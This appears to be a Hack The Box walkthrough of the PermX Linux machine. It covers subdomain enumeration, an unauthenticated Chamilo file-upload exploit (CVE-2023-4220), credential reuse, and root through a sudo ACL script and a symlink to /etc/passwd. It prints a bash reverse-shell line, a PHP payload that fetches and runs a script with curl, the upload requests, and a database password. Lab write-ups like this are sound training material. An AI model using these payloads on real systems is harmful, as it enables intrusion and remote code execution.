

# PermX



PermX is an easy Linux Hack The Box machine that starts with a vulnerable Chamilo instance, uses an unauthenticated file upload for initial access, and ends with ACL abuse to modify `/etc/passwd` and gain root.

## Reconnaissance

A port scan showed only SSH and HTTP.

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: eLEARNING
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Since SSH was unlikely to be the entry point, I focused on the web application.

## Web Enumeration

Browsing the site redirected to `permx.htb`, so I added that hostname to `/etc/hosts`.

The page looked like an online learning platform and listed staff names along with the email address `permx@htb.com`. The contact form and **Join Now** button did not lead anywhere useful.


Because the site depended on the correct virtual host, I used `ffuf` to enumerate subdomains.

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://permx.htb -H "Host: FUZZ.permx.htb" -fw 18
```

That revealed two valid subdomains:

- `www.permx.htb`
- `lms.permx.htb`

The `www` host matched the main site, while `lms.permx.htb` hosted a Chamilo login page.

## Version Discovery

The `robots.txt` file on the LMS host exposed several interesting paths, including `/documentation/`.

```text
Disallow: /app/
Disallow: /bin/
Disallow: /documentation/
Disallow: /home/
Disallow: /main/
Disallow: /plugin/
Disallow: /tests/
Disallow: /vendor/
```

In `/documentation`, I found the Chamilo version, and the changelog confirmed it was **1.11.24**. That version matched `CVE-2023-4220` https://starlabs.sg/advisories/23/23-4220/, an unauthenticated file upload vulnerability.

## Initial Access

The public proof-of-concept uploaded a PHP file through Chamilo’s BigUpload functionality and then triggered it directly. I modified the payload so it would fetch and run a reverse shell from my server.

```bash
echo 'bash -i >& /dev/tcp/10.10.10.10/9000 0>&1' > shell
echo '<?php system("curl 10.10.10.10/shell|bash"); ?>' > rce.php
curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php'
```

The upload succeeded, and triggering the file returned a shell as `www-data`.

## User Access

Chamilo stores its configuration in `/var/www/chamilo/app/config`. Reading `configuration.php` revealed the database credentials.

```php
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
```

I checked the local users with login shells and found only `root` and `mtz`.

```text
root:x:0:0:root:/root:/bin/bash
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
```

The database password also worked for `mtz`, so I logged in over SSH and captured the user flag.

## Privilege Escalation

Running `sudo -l` showed that `mtz` could execute `/opt/acl.sh` as any user without a password.

```text
User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

The script took a user, a permission set, and a target file. It only allowed paths under `/home/mtz` and rejected traversal attempts, but it also used `setfacl` on the target file.

```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

To abuse this, I created a symbolic link inside `/home/mtz` pointing to `/etc/passwd`, then used the script to grant write access through the link.

```bash
ln -s /etc/passwd /home/mtz/passwd
sudo /opt/acl.sh mtz rwx /home/mtz/passwd
```

That applied an ACL to `/etc/passwd`, giving me write access to the file.

With that access, I edited the root entry and removed the password field protection, which allowed me to switch to root with `su`.

## Attack Path

- Enumerate the target and identify SSH and HTTP.
- Discover the `permx.htb` virtual host.
- Enumerate subdomains and find `lms.permx.htb`.
- Fingerprint Chamilo and confirm version `1.11.24`.
- Exploit `CVE-2023-4220` to upload a PHP payload.
- Gain a `www-data` shell.
- Reuse the Chamilo database password for `mtz`.
- Abuse `sudo` rights on `/opt/acl.sh`.
- Use a symlink to apply ACLs to `/etc/passwd`.
- Modify the root password entry and escalate to root.

